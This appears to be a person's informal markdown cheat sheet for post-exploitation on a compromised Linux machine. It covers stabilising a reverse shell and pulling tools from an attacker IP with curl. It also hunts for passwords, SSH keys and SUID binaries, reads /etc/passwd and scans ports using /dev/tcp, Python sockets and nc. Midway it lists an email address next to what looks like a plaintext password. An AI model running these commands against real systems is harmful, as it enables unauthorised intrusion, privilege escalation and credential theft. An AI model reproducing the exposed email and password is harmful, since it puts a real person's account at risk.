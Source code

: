 
Got a reverse shell with full access to have to write some code dumb shell to full aceess shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg
reset.

export TERM=xterm

```


Make a list of commands to download payloads from the server 

```
curl <attacker_IP>/<tool_name> -o <out_name>
```

```
curl 10.50.88.33/nmap -o nmap_sar
```


To see hidden files 
```
cd / && ls -lah
```


```
hostname
uname -a
lscpu
ps aux


whoami
id
sudo -l
cat /etc/passwd
cat /etc/passwd | cut -d : -f 1


grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
locate password | more
find / -name authorized_keys 2> /dev/null 
find / -name id_rsa 2> /dev/null


sudo -l
find / -perm -u=s -type f 2>/dev/null
strace /usr/local/bin/suid-so 2>&1
env
print $PATH
getcap -r / 2>/dev/null

cat /etc/crontab
cat /etc/exports
```


```
s.singh.kv4.2021@gmail.com

4_tJG--A84K"jitD|ft{73}b,a3]wyg9
```


### Check the OS information
```
cat /etc/os-release
```


### Ping Sweep 

Bash
```
#!/bin/bash  
ports=(21 22 53 80 443 3306 8443 8080)  
for port in ${ports[@]}; do  
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null"   
done
```


Python
```
#!/usr/bin/python3  
import socket  
host = "1.1.1.1"  
portList = [21,22,53,80,443,3306,8443,8080]  
for port in portList:  
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
 try:  
  s.connect((host,port))  
  print("Port ", port, " is open")  
 except:  
  print("Port ", port, " is closed")
```


Netcat aka NC
```
nc -zv <IP_Address> 1-65535
```

I think the best option should be nc but will try the upper one as well but as i am not able to make file with nano/vim/vi will go with nc than

